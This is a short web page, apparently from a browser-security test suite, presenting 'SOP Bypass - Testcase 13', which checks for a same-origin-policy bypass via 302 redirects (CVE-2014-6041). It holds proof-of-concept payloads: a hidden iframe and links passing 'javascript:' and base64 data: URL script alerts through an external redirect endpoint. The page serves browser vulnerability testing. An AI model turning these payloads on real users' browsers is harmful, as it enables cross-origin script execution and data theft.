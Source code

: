 ```yaml
---
layout: default
title: SOP Bypass - Testcase 13
permalink: /sop/new/13
---
```


# SOP Bypass - Testcase 13

SOP Bypass test case based upon 302 server side redirects
<iframe height="0" width="0" name="CVE-2014-6041" src="https://web.archive.org/web/20180831120309if_/https://www.bing.com/" style="display:none;" data-ruffle-polyfilled=""></iframe>

<a href="https://web.archive.org/web/20180831120309/http://innerht.ml/re.php?xss=javascript:alert(document.domain)"><input type="button" id="btn_test" class="test" value="Run Test Case 1"></a>
<a href="https://web.archive.org/web/20180831120309/http://innerht.ml/re.php?xss=javascript:alert(document.domain)"><br></a>
<a href="https://web.archive.org/web/20180831120309/http://innerht.ml/re.php?xss=data:text/html;base64,PHNjcmlwdD5hbGVydChkb2N1bWVudC5kb21haW4pPC9zY3JpcHQ"><input type="button" id="btn_test" class="test" value="Run Test Case 2"></a>

<div class="note">
    <p><strong>Note:</strong><br>
    If page redirects and displays an alert box from the origin of innerht.ml, it has resulted in a SOP Bypass.
    </p>
</div>
